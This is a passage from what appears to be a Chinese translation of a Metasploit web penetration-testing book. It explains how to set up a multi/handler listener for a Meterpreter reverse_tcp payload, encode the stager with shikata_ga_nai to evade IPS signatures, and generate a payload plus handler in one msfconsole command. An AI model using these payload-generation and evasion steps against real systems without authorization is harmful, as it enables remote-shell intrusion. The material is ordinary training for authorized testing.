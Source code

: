 # 在 MSF 中设置有效载荷处理

在启动模块之前，我们需要设置处理程序。这个处理程序是一个存根，用于处理在 Metasploit Framework 之外启动的利用程序：

1.  通过输入`use exploit/multi/handler`命令加载处理程序模块：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/5057728e-34b4-419d-8465-092a72472084.png)

1.  接下来，我们使用`show options`命令查看可用选项，如下面的屏幕截图所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/8153fb19-5943-4470-9900-2ab95f95fc92.png)

正如我们所看到的，选项目前为空。一旦我们定义了有效载荷，这些选项就会加载。例如，我们将在这里使用`windows/x64/meterpreter/reverse_tcp`有效载荷，并设置有效载荷的标准选项，如`LHOST`和`LPORT`。`stageencoder`和`enablestageencoding`选项被设置为对处理程序发送的第二阶段进行编码：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/47236858-7ea1-4357-ac0b-e4b6683210fd.png)

首先，在选择编码器之前，我们设置`LHOST`和`LPORT`，该编码器将使用`shikata_ga_nai`编码器对分段器进行编码。我们使用分段器编码机制的原因是为了通过对分段器进行编码来绕过 IPSes/DPSes，从而在飞行中更改签名。

我们还需要通过将其值设置为`true`来启用阶段编码**。**此选项将使用我们选择的编码器启用第二阶段编码过程。设置了`stageencoding`选项后，执行`run -j`命令以在后台启动处理程序。

运行处理程序的另一种方法是使用控制台中可用的`handler`命令，并向其传递参数：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/a7abc47f-b039-407f-990c-42c7447797d0.png)

因此，用于执行具有所有先前讨论的设置的处理程序的一行命令将是`handler -H <IP> -P <Port> -e <encoder> -p <payload>`，如下图所示：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/013a1e1b-b7f0-4384-8019-ed26a55fe118.png)

接下来，我们将看一下 MSF 负载生成。

# MSF 负载生成

负载生成是 Metasploit Framework 中最有用的功能之一。从简单的 shellcode 生成到完全武装的 EXE/DLL 文件，Metasploit 可以在一条命令中生成。负载可以通过两种方式生成。

# 使用 msfconsole 生成 MSF 负载（一行命令）

通过使用 MSF 控制台并执行负载生成命令，您可以生成任何 MSF 支持的负载。使用此技术的一个优点是您不必单独启动负载处理程序。这可以通过一条命令完成。要生成负载并启动处理程序，请执行以下代码：

```
'msfconsole -qx "use <MSF supported payload>; set lhost<IP>; set lport <Port>; generate -f<Output File Format> -o<payload filename>; use exploit/multi/handler; set payload<MSF supported payload>; set lhost <IP>; set lport <Port>; run -j"'
```

以下屏幕截图显示了上述命令的输出：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/hsn-web-pentest-mtspl/img/98134196-af74-4fcc-b15c-c66e3ed8bf92.png)

上述命令将生成`reverse_https` Meterpreter 负载。列出它以确认生成的负载，并在端口`9090`上启动处理程序以进行传入连接。生成负载的另一种方法是使用 MSFvenom。
